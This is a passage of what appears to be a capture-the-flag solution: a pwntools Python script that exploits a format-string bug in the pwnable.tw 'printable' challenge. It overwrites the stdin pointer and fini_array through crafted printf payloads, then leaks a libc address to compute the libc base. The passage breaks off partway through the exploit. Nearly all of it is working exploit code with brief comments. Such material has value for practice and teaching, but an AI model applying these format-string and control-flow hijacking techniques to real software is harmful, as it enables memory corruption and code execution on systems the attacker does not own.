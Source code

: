 ## 实现

````python
from pwn import *

s      = lambda data               :sh.send(data) 
sa      = lambda delim,data         :sh.sendafter(delim, data)
sl      = lambda data               :sh.sendline(data)
sla     = lambda delim,data         :sh.sendlineafter(delim, data)
sea     = lambda delim,data         :sh.sendafter(delim, data)
r      = lambda numb=4096          :sh.recv(numb)
ru      = lambda delims, drop=True  :sh.recvuntil(delims, drop)
info_addr = lambda tag, addr        :sh.info(tag +': {:#x}'.format(addr))
itr     = lambda                    :sh.interactive()

if args['REMOTE']:
    sh=remote('chall.pwnable.tw',10307)
else:
    sh=process("./printable")

if args['I386']:
    context.arch='i386'
else:
    context.arch='amd64'

if args['DEBUG']:
    context.log_level='debug'


def debug(command=''):
    context.terminal = ['tmux', 'splitw', '-v']
    gdb.attach(sh,command)

def exp():
    #debug("b*0x0000000000400948\nc")
    #libc=ELF("/glibc/2.23/64/lib/libc-2.23.so")
    libc=ELF("./libc_64.so.6")
    ru("Input :")
    #offset 6
    #1.edit stdin(0x601020) to stdout (0x5540)
       #modify offset of finiarray (in stack 0x120) => 42 
       #fini array:0x600db8 goal:0x601000=>0x248
       #main:0x4008CF 400916 0x400740 400925
    payload=b"%"+str(0x40).encode()+b"c"+b"%14$hhn"+\
            b"%"+str(0x55-0x40).encode()+b"c"+b"%15$hhn"+\
            b"%"+str(0x248-0x55).encode()+b"c"+b"%42$n"+\
            b"%"+str(0x90c-0x248).encode()+b"c"+b"%16$hn"+\
            b"%"+str(0x40-0x0c).encode()+b"c"+b"%17$hhn"+\
            b"a:"+b"%25$p"+b"::"+\
            p64(0x601020)+p64(0x601021)+p64(0x601000)+p64(0x601002)
    print(len(payload))
    sl(payload)

    #2.leak and attack printf to ret offset:7
    payload=b"%"+str(0xc).encode()+b"c"+b"%14$hhn"+b"~%54$p~"+\
            b"m%16$pm"
    payload=payload.ljust(0x38,b'\x00')
    #payload+=b'\xa0'
    ru("Input :")
    s(payload)
    ru("~")
    libc_base=int(ru("~").decode(),16)-240-libc.symbols["__libc_start_main"]
    ru("m")
````